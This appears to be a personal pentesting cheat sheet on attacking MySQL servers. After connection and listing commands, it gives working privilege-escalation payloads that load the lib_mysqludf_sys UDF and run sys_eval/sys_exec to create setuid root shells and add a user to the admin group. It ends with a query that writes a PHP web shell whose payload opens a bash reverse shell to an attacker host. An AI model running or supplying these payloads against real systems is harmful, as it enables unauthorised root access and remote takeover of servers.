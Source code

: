 
Connect to MYSQL server:
---
#mysql #connect

```shell
mysql -h $TARGET_IP -u $USER -p
```
Show list of databases:
```sql
show databases;
```
Show list of tables in current DB:
```sql
show tables;
```
Priv esc if running as root:
#mysql #privesc #priv-esc

```sql
use mysql;
show tables;
select * from func;
CREATE FUNCTION sys_eval RETURNS INT SONAME 'lib_mysqludf_sys.so';
SELECT sys_eval("cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash");
```

OR

```sql
select sys_exec('cp /bin/sh /tmp; chown root:root /tmp/sh; chmod +s /tmp/sh');
select sys_exec('usermod -a -G admin USER');
```

```shell
cd /var/tmp
./bash -p
```

```sql
select "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER/4444 0>&1'\");?>" into outfile "/var/www/.../shell.php";
```
---